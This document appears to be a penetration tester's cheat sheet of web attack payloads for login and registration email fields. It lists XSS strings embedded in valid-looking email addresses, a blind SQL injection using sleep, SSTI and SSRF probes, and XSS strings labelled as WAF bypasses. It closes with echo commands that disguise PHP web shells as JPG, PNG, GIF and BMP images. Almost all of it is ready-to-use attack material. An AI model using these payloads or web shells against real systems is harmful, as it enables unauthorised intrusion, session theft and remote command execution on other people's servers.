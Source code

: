 Login and register payloads:

- valid Email payloads:
1. test+(<script>alert(0)</script>)@example.com
2. test@example(<script>alert(0)</script>).com
3. "<script>alert(0)</script>"@example.com


Sql injection:
(select(0)from(select(sleep(25)))v) --> Blind 25 seconds



SSTI template injection:
"<%= 7 * 7 %>"@example.com
test+(${{7*7}})@example.com

SSRF:
john.doe@abc123.burpcollaborator.net
john.doe@[127.0.0.1]
-------------------------
html injection(Can use match and replace in request body):
<u>123</u>


-------------
XSS:
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

%3c<aa+ONLOAD+href=javasONLOADcript:promptONLOAD(1)%3e --> WAF BYPASS
<img src onerror=alt=''+document.domain> '  --> WAF Bypass

xss payload --> xss.xml:

<?xml version="1.0" encoding="UTF-8"?>
<html xmlns:html="http://w3.org/1999/xhtml">
<html:script>prompt(document.domain);</html:script>
</html>

Double quote and single quote bypass:
<xhzeem/x=" onmouseover=eva&#x6c;?.(id+/(document.domain)/.source) id=confirm>


------
RCE payload to creating image:
echo -n -e '\xFF\xD8\xFF\xE0<?php system($_GET["cmd"]);?>.' > shell.jpg

echo -n -e '\x89\x50\x4E\x47<?php system($_GET["cmd"]);?>.' > shell.png

echo -n -e '\x47\x49\x46\x38<?php system($_GET["cmd"]);?>.' > shell.gif

echo -n -e '\x42\x4D<?php system($_GET["cmd"]);?>.' > shell.bmp